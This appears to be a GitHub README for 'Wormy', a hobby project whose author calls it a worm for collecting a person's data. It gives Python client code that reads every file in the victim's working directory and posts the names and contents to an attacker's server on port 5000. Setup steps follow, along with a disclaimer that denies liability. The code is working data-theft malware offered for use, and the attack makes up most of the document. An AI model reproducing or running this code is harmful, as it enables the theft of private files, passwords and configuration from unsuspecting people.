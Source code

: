 # Wormy Project
Wormy is a worm designed to gather info about a person, it could be passwords they keep in a file or simply a bashrc file you wanted to use, its not much of a spearfishing attack and it has a pretty low chance of actually getting something useful.

## Usage
This file goes to the client, enter your ip where it says to do so
```python
import socket
import subprocess
import os
class main:
    def get_data():
        # Getting all files in current directory
        path = os.getcwd()
        files=[]
        with os.scandir(path) as listOfEntries:
            for entry in listOfEntries:
                # store all entries that are files
                if entry.is_file():
                    files.append(entry.name)
        file_contents = []
        for file in files:
            with open(file,"r") as f:
                file_contents.append(str(f.read())+"_from_"+str(file))
        return files, file_contents
    def upload(files, file_contents, ip):
        import requests
        header = {
            'filecontents': file_contents,
            'files': files
        }
        requests.post(ip+":5000/input",data=header)
    def stringlist(list1):
        returnme = ""
        for i in list1:
            returnme = returnme+i+"\n"
        return returnme
    host="http://localhost" # ENTER YOUR IP OR DNS HERE
files, filecontents = main.get_data()
files, filecontents = main.stringlist(files),main.stringlist(filecontents)
main.upload(files,filecontents,main.host)
```
on your side make sure to port foward the `5000` port or the port you changed it to (it doesnt matter what port it connects to since the firewall will not block 5000 unless a rule is specified and then run the client.py, make sure flask is updated as there are a few exploits that could work on older versions of flask.
IMPORTANT: I am not to be held liable for any actions you use this worm for, this was just a project I did for fun and not a hacking tool.

## License
[MIT](https://choosealicense.com/licenses/mit/)
## License
[MIT](https://choosealicense.com/licenses/mit/)
